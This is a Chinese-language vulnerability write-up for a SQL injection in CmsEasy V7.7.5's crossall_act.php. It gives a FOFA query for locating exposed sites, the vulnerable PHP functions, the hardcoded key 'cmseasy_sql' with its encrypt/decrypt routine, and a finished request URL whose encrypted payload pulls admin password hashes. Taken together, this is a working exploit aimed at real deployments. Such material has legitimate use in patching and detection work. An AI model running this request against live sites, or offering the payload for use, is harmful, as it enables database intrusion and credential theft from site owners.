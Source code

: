 # CmsEasy crossall_act.php SQL注入漏洞

## 漏洞描述

CmsEasy 存在SQL注入漏洞，通过文件 service.php 加密SQL语句执行即可执行任意SQL命令

## 漏洞影响

```
CmsEasy V7.7.5_20210919
```

## FOFA

```
body="cmseasyedit"
```

## 漏洞复现

![image-20220518143113914](./images/202205181431042.png)

存在漏洞的文件为 `lib/default/crossall_act.php`

![image-20220518143156363](./images/202205181431425.png)

其中需要注意的代码为

```
function execsql_action(){
        $sqlquery=front::get("sql");
        $sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");

        $returndata=tdatabase::getInstance()->rec_query_one($sqlquery);
        echo json_encode($returndata);
        exit;
    }
    function execsqls_action(){
            $sqlquery=front::get("sql");
            $sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");

            $returndata=tdatabase::getInstance()->rec_query($sqlquery);
            echo json_encode($returndata);
            exit;
        }
    function execupdate_action(){
        $sqlquery=front::get("sql");
        $sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");

        $returndata=tdatabase::getInstance()->query($sqlquery);
        echo json_encode($returndata);
        exit;
    }
```

代码中传入参数 sql， 然后使用方法 unlockString 解码执行 SQL语句

查看文件 `lib/table/service.php`

```
public static function lockString($txt,$key='cmseasy_sql')
    {
        $chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-=+";
        $nh = rand(0,64);
        $ch = $chars[$nh];
        $mdKey = md5($key.$ch);
        $mdKey = substr($mdKey,$nh%8, $nh%8+8);
        $txt = base64_encode($txt);
        $tmp = '';
        $i=0;$j=0;$k = 0;
        for ($i=0; $i<strlen($txt); $i++) {
            $k = $k == strlen($mdKey) ? 0 : $k;
            $j = ($nh+strpos($chars,$txt[$i])+ord($mdKey[$k++]))%64;
            $tmp .= $chars[$j];
        }
        return urlencode($ch.$tmp);
    }

    /**对字符串进行解密。 crossall_act文件使用
     * @param $txt
     * @param string $key
     * @return bool|string
     */
    public static function unlockString($txt,$key='cmseasy_sql')
    {
        $txt = urldecode($txt);
        $chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-=+";
        $ch = $txt[0];
        $nh = strpos($chars,$ch);
        $mdKey = md5($key.$ch);
        $mdKey = substr($mdKey,$nh%8, $nh%8+8);
        $txt = substr($txt,1);
        $tmp = '';
        $i=0;$j=0; $k = 0;
        for ($i=0; $i<strlen($txt); $i++) {
            $k = $k == strlen($mdKey) ? 0 : $k;
            $j = strpos($chars,$txt[$i])-$nh - ord($mdKey[$k++]);
            while ($j<0) $j+=64;
            $tmp .= $chars[$j];
        }
        return base64_decode($tmp);
    }
```

文件中得到了 `$key='cmseasy_sql'` 和加解密方法，构造请求获取账号密码md5

![image-20220518143235578](./images/202205181432691.png)

```
/?case=crossall&act=execsql&sql=Ud-ZGLMFKBOhqavNJNK5WRCu9igJtYN1rVCO8hMFRM8NIKe6qmhRfWexXUiOqRN4aCe9aUie4Rtw5
```

![image-20220518143250910](./images/202205181432971.png)